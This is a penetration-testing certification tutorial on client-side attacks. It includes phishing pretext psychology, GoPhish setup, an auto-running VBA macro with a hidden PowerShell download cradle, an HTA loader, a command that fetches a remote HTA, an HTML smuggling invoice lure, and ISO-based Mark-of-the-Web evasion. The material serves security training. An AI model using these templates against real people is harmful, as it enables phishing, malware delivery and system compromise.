





When enterprise perimeter firewalls are strictly hardened, zero inbound services are exposed to the public internet, and web applications are rigorously patched, organizations often consider themselves impervious to external compromise. Yet time and again, penetration testers and advanced threat actors breach these environments through the weakest link: **the human user behind the browser or email client**.

In this deep dive covering Part 9 of the **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** curriculum, we break down the operational mechanics of **Client-Side Attacks**. We examine social engineering psychological frameworks, configure enterprise phishing infrastructure using **GoPhish**, develop weaponized **Office VBA Macros**, execute **HTML Application (HTA)** attacks, and bypass perimeter security proxies using **HTML Smuggling** and **Mark-of-the-Web (MOTW)** evasion techniques.

<div class="ff-series-nav">
  <a href="/posts/ecppt-v3-part-8-web-application-penetration-testing/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 8: Web Application Pentesting</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-layer-group"></i> eCPPTv3 Series</span>
    <span class="ff-center-part">Part 9 of 10</span>
  </div>
  <a href="/posts/ecppt-v3-part-10-powershell-for-pentesters/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 10: PowerShell & AMSI Evasion</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Key Takeaways

* **Inbound vs. Outbound Threat Vectors**: Unlike server-side attacks that require direct inbound connectivity to a listening port, client-side attacks rely on **outbound connections** initiated by trusted internal users, completely bypassing inbound firewall rules.
* **Cialdini's Psychological Principles**: Successful phishing pretexts leverage proven persuasion triggers: **Authority** (IT security mandates), **Scarcity/Urgency** (mandatory password reset deadlines), **Social Proof** (departmental compliance updates), and **Consistency**.
* **Phishing Infrastructure Hygiene**: High-deliverability phishing servers deployed via **GoPhish** require rigorous DNS authentication alignment: **SPF** (authorized sender IP ranges), **DKIM** (cryptographic header signing), and **DMARC** policy enforcement to prevent spoofing detection.
* **VBA Macro Weaponization**: Crafting malicious Microsoft Office documents utilizing `AutoOpen()` and `Document_Open()` subroutines that dynamically invoke Windows API calls or execute obfuscated in-memory payloads using tools such as **MacroPack**.
* **HTML Smuggling & MOTW Container Bypasses**: Bypassing web proxies and email gateways by constructing malicious binary payloads dynamically in the victim's browser using JavaScript Blobs. Delivering these payloads inside container formats (such as **ISO** and **VHD**) avoids the NTFS `Zone.Identifier` Mark-of-the-Web flag, neutralizing Microsoft SmartScreen warnings.

---

## 1. End-to-End Client-Side Attack Pipeline



---

## 2. Social Engineering Psychology & Target Profiling

Successful social engineering exploits human psychological heuristics identified by Dr. Robert Cialdini:

1. **Authority**: Posing as senior executive leadership, corporate legal counsel, or internal IT compliance teams.
2. **Urgency & Scarcity**: Establishing strict deadlines (e.g., "Account suspended within 15 minutes unless verified").
3. **Consistency & Social Proof**: Referencing corporate events, department colleagues, or enterprise software migrations (e.g., "Your department's transition to Microsoft 365").

### Target OSINT and Metadata Profiling:

```bash
# Enumerate employee email addresses and LinkedIn profiles
theHarvester -d targetcompany.com -b linkedin,google -l 200

# Inspect metadata of public corporate documents to identify OS versions and usernames
exiftool -Creator -Author -Producer -Company *.pdf
```

---

## 3. Enterprise Phishing Infrastructure: GoPhish Setup

**GoPhish** is the premier open-source phishing framework used to conduct authorized simulations and spear-phishing campaigns:



### Essential DNS Authentication Configuration:
* **SPF (Sender Policy Framework)**: A TXT record defining which server IPs are authorized to send mail for your domain:
  `v=spf1 ip4:198.51.100.10 ~all`
* **DKIM (DomainKeys Identified Mail)**: Generates a public/private cryptographic keypair. The private key signs outgoing email headers, and the public key is published via DNS TXT records.
* **DMARC (Domain-based Message Authentication)**: Directs receiving mail servers how to treat messages that fail SPF/DKIM validation (`p=reject`).

---

## 4. Microsoft Office VBA Macro Weaponization

Visual Basic for Applications (VBA) allows automatic code execution upon document open via `AutoOpen()` in Word or `Workbook_Open()` in Excel.

```vba
' Example weaponized VBA macro
Sub AutoOpen()
    ExecutePayload
End Sub

Sub Document_Open()
    ExecutePayload
End Sub

Sub ExecutePayload()
    Dim strCommand As String
    Dim objWshShell As Object
    
    ' PowerShell cradle executing obfuscated payload in memory
    strCommand = "powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8...=="
    
    Set objWshShell = CreateObject("WScript.Shell")
    objWshShell.Run strCommand, 0, False
End Sub
```

### Code Obfuscation via MacroPack:

```bash
# Generate highly obfuscated Word document macro bypassing signature detection
macro_pack.exe --obfuscate -t MSWORD -G document.docm
```

---

## 5. HTML Application (HTA) Attacks

**HTML Applications (.hta)** are standalone Windows applications containing HTML, VBScript, and JScript. Because they are executed natively by `mshta.exe`, they execute **outside the browser security sandbox**, possessing full local user permissions!

```html
<!-- Malicious payload.hta -->
<html>
<head>
<script language="VBScript">
    Sub Window_OnLoad
        Dim objShell
        Set objShell = CreateObject("WScript.Shell")
        ' Spawn hidden PowerShell C2 agent in the background
        objShell.Run "powershell.exe -W Hidden -Enc <Base64_Payload>", 0, False
        ' Immediately terminate the HTA window to minimize visibility
        window.close
    End Sub
</script>
</head>
<body>
</body>
</html>
```

Executing remotely via Windows command line:
```cmd
mshta.exe http://10.10.14.5/payload.hta
```

---

## 6. HTML Smuggling & Mark-of-the-Web (MOTW) Evasion

**HTML Smuggling** constructs malicious payloads entirely client-side using JavaScript Blobs. Security appliances and firewalls only see benign HTML and JavaScript crossing the wire:



### Production HTML Smuggling Template:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Secure Document Portal</title>
</head>
<body>
    <h3>Decrypting your secure invoice... please wait.</h3>
    <script>
        function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array(len);
            for (var i = 0; i < len; i++) {
                bytes[i] = binary_string.charCodeAt(i);
            }
            return bytes.buffer;
        }

        var payload = "UEsDBBQAAAAIAAA...[Base64 Encoded ISO Container]...";
        var data = base64ToArrayBuffer(payload);
        var blob = new Blob([data], {type: 'application/octet-stream'});
        var fileName = 'Corporate_Invoice_2026.iso';

        var a = document.createElement('a');
        document.body.appendChild(a);
        a.style = 'display: none';
        var url = window.URL.createObjectURL(blob);
        a.href = url;
        a.download = fileName;
        a.click();
        window.URL.revokeObjectURL(url);
    </script>
</body>
</html>
```

### Bypassing Mark-of-the-Web (MOTW) via ISO Containers:
When Windows downloads a file via the browser, it tags it with an NTFS Alternate Data Stream: `Zone.Identifier=3` (Internet Zone). This flag triggers SmartScreen warnings and blocks Office macros.

However, when files are encapsulated inside an **ISO** or **VHD** container, Windows mounts the container as a local virtual disk upon double-click. **The files inside the mounted image do not inherit the MOTW zone flag!** Inside the ISO, we place a disguised Windows Shortcut (`.lnk`) that executes PowerShell in the background.

---

---

## Visual Architecture: Client-Side Weaponization & Delivery Pipeline

The following technical diagram details the 4-phase client-side attack lifecycle, from psychological pretexting and email deliverability alignment to HTML Smuggling and container-based MOTW evasion:



### Key Architectural Observations from the Diagram:
1. **The HTML Smuggling Delivery Mechanism**: By generating a dynamic file inside a JavaScript `Blob` and triggering a synthetic `a.click()` event, the file is assembled directly in browser memory. Perimeter web filtering appliances inspect the HTTP transmission and see only benign HTML and JavaScript, completely failing to detect the compiled executable or ISO container crossing the perimeter.
2. **The MOTW Container Bypass**: Standard files downloaded via web browsers inherit the NTFS `Zone.Identifier=3` alternate data stream. Encapsulating payloads inside an `.iso` container ensures that when a victim double-clicks to mount the ISO, Windows Explorer assigns it a virtual drive letter, stripping the zone flag from files inside!

---

## Attack Chain Interconnection: Bypassing Perimeter Defenses to Deliver C2 Implants

Client-side attacks represent the ultimate initial access vector when server-side perimeters are impenetrable:



* **Connection to Part 7 (C2 Infrastructure)**: The payload delivered by your HTML Smuggling or VBA macro is configured to establish a reverse HTTPS beacon back to the multi-tier C2 redirectors built in Part 7.
* **Connection to Part 10 (PowerShell for Pentesters)**: Windows endpoints are equipped with Windows Defender and AMSI. Delivering a PowerShell stager via client-side phishing requires executing the in-memory AMSI memory patch from Part 10 to prevent Defender from killing the process upon arrival.

---

## Categorized References & Authoritative Sources

### 1. Phishing & Weaponization Tooling
* **GoPhish Official Framework Documentation**: [https://getgophish.com/documentation/](https://getgophish.com/documentation/).
* **MacroPack by Sevagas**: Automated Office document weaponization and macro obfuscation. [https://github.com/sevagas/macro_pack](https://github.com/sevagas/macro_pack).
* **Outflank Research: HTML Smuggling**: Deep-dive analysis of browser blob assembly. [https://outflank.nl/blog/2020/08/18/html-smuggling/](https://outflank.nl/blog/2020/08/18/html-smuggling/).

### 2. Email Deliverability RFC Specifications
* **RFC 7208**: Sender Policy Framework (SPF) for Authorizing Email Senders.
* **RFC 6376**: DomainKeys Identified Mail (DKIM) Signatures.
* **RFC 7489**: Domain-based Message Authentication, Reporting, and Conformance (DMARC).

### 3. MITRE ATT&CK Enterprise Techniques
* **T1566.001**: Phishing: Spearphishing Attachment. [https://attack.mitre.org/techniques/T1566/001/](https://attack.mitre.org/techniques/T1566/001/).
* **T1566.002**: Phishing: Spearphishing Link. [https://attack.mitre.org/techniques/T1566/002/](https://attack.mitre.org/techniques/T1566/002/).
* **T1204.002**: User Execution: Malicious File. [https://attack.mitre.org/techniques/T1204/002/](https://attack.mitre.org/techniques/T1204/002/).
* **T1027.006**: HTML Smuggling. [https://attack.mitre.org/techniques/T1027/006/](https://attack.mitre.org/techniques/T1027/006/).

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
